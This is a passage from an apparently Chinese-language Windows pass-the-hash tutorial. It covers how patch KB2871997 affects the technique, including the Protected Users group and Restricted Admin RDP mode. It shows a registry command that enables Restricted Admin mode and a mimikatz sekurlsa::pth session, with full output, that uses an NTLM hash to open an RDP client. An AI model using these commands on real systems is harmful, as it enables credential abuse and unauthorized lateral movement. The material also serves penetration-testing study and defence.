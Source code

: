 ```plain
C:\Windows\system32>

```

# 四、更新KB2871997补丁产生的影响
## 1、Protected Users组的支持
从Win Server 2012R2域功能起，引入了新的Protected Users组，该组中的用户：

1）强制只能使用Kerberos协议进行身份验证，拒绝NTLM、Digest和CredSSP认证。

2）使用Kerberos协议仅支持AES加密，拒绝DES和RC4

3）不能使用约束性或非约束性委派来委派用户的账户

所以，当用户加入Protected Users组后，无法PTH

## 2、Restricted Admin RDP模式远程客户端支持
从Windows 8.1和Windows Server 2012R2起，引入了Restricted Admin RDP模式。该模式对Desktop Users组用户不可用。在该模式之前，RDP登录到目标主机会把凭证存储在目标主机的内存中，如果该主机被入侵，凭证会泄露。

应用了该模式的主机支持使用Hash来登录，前提是连接发起端也要支持该模式，且连接用户是本地管理员用户

默认情况下，该模式默认关闭，需要在注册表开启

```plain
C:\Users\administrator.SEC>reg add "hklm\system\currentcontrolset\control\lsa" /f /v DisableRestrictedAdmin /t REG_DWORD /d 0
The operation completed successfully.

C:\Users\administrator.SEC>
```

administrator用户

```plain
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:administrator /domain:10.10.4.21 /ntlm:27d86657f458a28aeed03655ba6a6137 "/run:mstsc.exe /restrictedadmin"
user    : administrator
domain  : 10.10.4.21
program : mstsc.exe /restrictedadmin
impers. : no
NTLM    : 27d86657f458a28aeed03655ba6a6137
  |  PID  7800
  |  TID  11924
  |  LSA Process is now R/W
  |  LUID 0 ; 408767920 (00000000:185d4db0)
  \_ msv1_0   - data copy @ 0000021374CE5CF0 : OK !
  \_ kerberos - data copy @ 000002137591E9E8
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 00000213753BA8D8 (32) -> null

mimikatz #
```
